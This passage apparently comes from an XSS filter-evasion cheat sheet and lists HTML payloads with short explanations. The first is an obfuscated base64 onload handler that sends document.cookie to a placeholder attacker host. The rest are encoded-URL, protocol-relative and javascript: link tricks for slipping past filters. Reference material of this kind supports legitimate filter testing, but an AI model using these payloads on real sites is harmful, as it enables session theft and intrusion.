 ```html
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

#### Mixed Encoding

Let's mix and match base encoding and throw in some tabs and newlines (why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:


```html
<A HREF="h
tt  p://6	6.000146.0x7.147/">XSS</A>
```


#### Protocol Resolution Bypass

`//` translates to `http://`, which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like `(ht|f)tp(s)?://` (thanks to Ozh for part of this one). You can also change the `//` to `\\\\`. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL:

```html
<A HREF="//www.google.com/">XSS</A>
```

#### Removing CNAMEs

When combined with the above URL, removing `www.` will save an additional 4 bytes for a total byte savings of 9 for servers that have set this up properly:

```html
<A HREF="http://google.com/">XSS</A>
```

Extra dot for absolute DNS:

```html
<A HREF="http://www.google.com./">XSS</A>
```

#### JavaScript Link Location

```html
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

#### Content Replace as Attack Vector


Assuming `http://www.google.com/` is programmatically replaced with nothing. A similar attack vector has been used against several separate real world XSS filters by using the conversion filter itself (here is an example) to help create the attack vector `java&\#x09;script:` was converted into `java	script:`, which renders in IE:


```html
<A HREF="http://www.google.com/ogle.com/">XSS</A>
```
